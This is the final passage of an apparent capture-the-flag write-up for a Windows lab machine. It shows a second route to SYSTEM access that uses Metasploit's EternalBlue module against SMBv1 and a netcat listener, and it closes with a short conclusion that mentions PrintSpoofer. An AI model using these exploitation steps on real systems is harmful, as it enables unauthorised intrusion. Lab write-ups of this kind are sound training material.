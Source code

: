 We have now achieved root privileges and can grab the root flag from `C:\Users\Administrator\Desktop\root.txt`.

## Exploitation Phase [Approach 2] - EternalBlue

Due to the fact that this server is using SMBv1 for its shares, we know that it is vulnerable to the `EternalBlue` exploit. As such, it is trivial for us to exploit this with `metasploit`.

``` bash
    msf > use exploit/windows/smb/ms17_010_eternalblue
    msf exploit(windows/smb/ms17_010_eternalblue) > show options
        set options...
```

We can then set up a listener (either via `nc` or `metasploit` - it doesn't really matter which) and then do:
``` bash
    msf exploit(windows/smb/ms17_010_eternalblue) > run
```
If we run `systeminfo` we get all the information we need about the target machine. If you run `whoami` you'll see that we are `nt authority\system`.

# Conclusion

As a general challenge, this one was a lot tougher than I was expecting. It requires you to do a lot of digging (namely with `nmap` to discover the correct approach when dealing with file access). The use of a relatively modern exploit `PrintSpoofer` was fun to work with and definitely an interesting read.